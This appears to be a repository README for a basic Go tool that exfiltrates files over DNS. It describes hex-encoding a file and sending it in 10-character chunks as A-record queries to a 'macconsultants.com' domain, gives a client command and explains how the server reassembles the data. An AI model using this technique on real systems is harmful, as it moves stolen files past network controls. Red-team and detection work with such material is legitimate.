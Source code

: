 This is a very basic file exfiltration tool that uses DNS A records to exfiltrate files.

How it Works:
1. build the server and start it (sudo ./<binname>)
2. The dns server will then listen for incoming DNS connections
3. The dns server will resolve any request it gets to 10.10.10.10
4. build and run the client and feed it a single parameter which is the path to the file you want to exfil. Example:

./go-dnsclient ~/Desktop/importantfile.txt

5. the client will then read the contents of the file, hex encod it, and send it in 10 character chunks as A record requests. The format of each request is:
[10 hex encoded characters].macconsultants.com
6. Once done the server will take all of the hex encoded data, combine, and unhexlify it to a file as ASCII in the same directory. The output file is called outfile.
7. The server will not indicate when done but the client does. Once the client says it is done, you can kill the server and view the contents of outfile.
8. You will need to rename the outfile if you want to send multiple files, since the server will overwrite it


